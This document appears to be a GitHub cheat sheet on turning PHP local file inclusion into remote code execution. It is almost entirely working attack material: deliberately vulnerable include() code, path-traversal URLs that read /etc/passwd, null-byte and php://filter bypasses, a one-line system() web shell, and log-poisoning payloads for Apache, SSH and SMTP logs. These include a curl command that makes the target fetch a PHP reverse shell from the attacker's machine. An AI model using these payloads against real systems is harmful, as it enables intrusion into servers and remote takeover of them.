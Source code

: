 # LFI---RCE-Cheat-Sheet
Transition form local file inclusion attacks to remote code exection

# Vulnerable PHP Code (LFI) 1

```
<?php
$file = $_GET['file'];

 include('directory/' . $file)

?>

Example URL: http//10.10.10.10/index.php?file=../../../../../../../etc/passwd
    
```

# Vulnerable PHP Code (LFI) 2

```
<?php
   $file = $_GET['file'];
   if(isset($file))
   {
       include("$file");
   }
   else
   {
       include("index.php");
   }
   ?>


Example URL: http//10.10.10.10/index.php?file=../../../../../../../etc/passwd
    
```

# Bypassing PHP via NULL Byte

```
http://example.com/index.php?page=../../../etc/passwd%00 // Only applies to PHP 5.3.4 and below
    
```

# Bypassing PHP via WRAPPERS

```
http://example.com/index.php?page=php://filter/read=string.rot13/resource=index.php
http://example.com/index.php?page=php://filter/convert.iconv.utf-8.utf-16/resource=index.php
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
http://example.com/index.php?page=pHp://FilTer/convert.base64-encode/resource=index.php
    
```

# PHP RCE

```
<?php system($_GET['c']); ?>

```

# LFI to RCE via Apache Log File Poisoning (PHP)

```
Example URL: http//10.10.10.10/index.php?file=../../../../../../../var/log/apache2/access.log // Must have the ability to read the log file 

Payload: curl "http://192.168.8.108/" -H "User-Agent: <?php system(\$_GET['cmd']); ?>" // Replace IP with your target 
Execute RCE: http//10.10.10.10/index.php?file=../../../../../../../var/log/apache2/access.log&cmd=id

OR
python -m SimpleHTTPServer 9000 // You can use any port
Payload: curl "http://<remote_ip>/" -H "User-Agent: <?php file_put_contents('shell.php',file_get_contents('http://<local_ip>:9000/shell-php-rev.php')) ?>" // This will download the PHP reverse shell from your web server onto the target

// file_put_contents('shell.php') = What it will be saved locally on the target
// file_get_contents('http://<local_ip>:9000/shell-php-rev.php') = Where is the shell on YOUR pc and WHAT is it called

Execute PHP Reverse Shell: http//10.10.10.10/shell.php
```

# LFI to RCE via SSH Log File Poisoning (PHP)

```
Example URL: http//10.10.10.10/index.php?file=../../../../../../../var/log/auth.log // Must have the ability to read the log file
Payload: ssh <?php system($_GET['cmd']);?>@<target_ip> // Replace with the target IP

Execute RCE: http//10.10.10.10/index.php?file=../../../../../../../var/log/auth.log&cmd=id

```

# LFI to RCE via SMTP Log File Poisoning (PHP)

```
Example URL: http//10.10.10.10/index.php?file=../../../../../../../var/log/mail.log // Must have the ability to read the log file

telnet <target_ip> 25 // Replace with the target IP
MAIL FROM:<toor@gmail.com>
RCPT TO:<?php system($_GET['c']); ?>

Execute RCE: http//10.10.10.10/index.php?file=../../../../../../../var/log/mail.log&c=id

Execute RCE: http//10.10.10.10/index.php?file=../../../../../../../var/log/auth.log&cmd=id

```
